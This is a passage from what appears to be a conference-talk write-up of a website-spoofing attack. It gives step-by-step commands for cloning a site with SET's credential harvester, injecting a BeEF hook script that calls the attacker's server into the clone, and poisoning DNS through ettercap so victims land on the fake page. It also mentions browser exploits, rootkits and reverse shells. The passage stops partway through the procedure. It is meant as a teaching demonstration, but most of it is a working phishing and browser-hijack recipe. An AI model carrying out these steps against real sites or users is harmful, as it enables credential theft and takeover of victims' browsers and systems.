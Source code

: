 The victim may visit the attackers cloned website due to ARP and/or DNS spoofing. Subterfuge is handy to run a plethora of attacks against the victims browser through the likes of the Metasploit Browser AutoPwn module. If >0 attacks are successful (we've managed to install a rootkit), the attacker will usually get a remote command shell to the victims system by way of reverse or bind shell. Then simply forward them onto the legitimate website without them even being aware of the attack.

![](images/HandsOnHack.png)

The following attack was one of five that I demonstrated at WDCNZ in 2015. The two leading up to this one provide some context and it's probably best to look at them first if you haven't already.

You can find the video of how it is played out [here](https://www.youtube.com/watch?v=ymnqTrnF85M).

##### Synopsis

The average victim will see a valid URL and the spoof will be undetectable. Use website that you know victim is likely to spend some time at. This can make it easier if you're running exploits manually in BeEF.

Can be used to obtain credentials or simply hook with BeEF and run any number of exploits.

SET would be run on the website you want to clone. As SET only gets the index file, you'll have to use the likes of wget to get any other missing resources you need to complete the website. Static sites are obviously the easiest. We don't really want to have to create a back-end for the cloned website. You may have to update some of the link's to external resources as well in the index.html file that SET creates.

Ideally you'll have cleaned out the public web directory that apache hosts from `/var/www/`. If you don't, I think SET archives everything in there.

##### The Play

Run:
`setoolkit`
Choose:
`2) Website Attack Vectors`
`3) Credential Harvester Attack Method`
`2) Site Cloner`
Enter the IP address you want to host from. This will probably be the machine you're running these commands from. Although you could host anywhere.  
Enter the URL to clone.
`y` to start apache.  
Here you'll need to either wget any files your missing if you are missing some, or if there are only a small number, just grab them out of your browser developer tools.  
Add the BeEF hook (`<script src="http://<BeEF comms server IP address>:3000/hook.js"></script>`)into the index.html in `/var/www/` usually at the end of the body, just before the `</body>` tag.  

From the directory that you have BeEF installed, run the BeEF ruby script: `./beef`  

Add an 'A' record of the website you've just cloned and want to spoof into ettercap's dns file: `echo "<domainname-you-want-to-clone.com> A <IP address that's hosting the clone>" >> /etc/ettercap/etter.dns`  
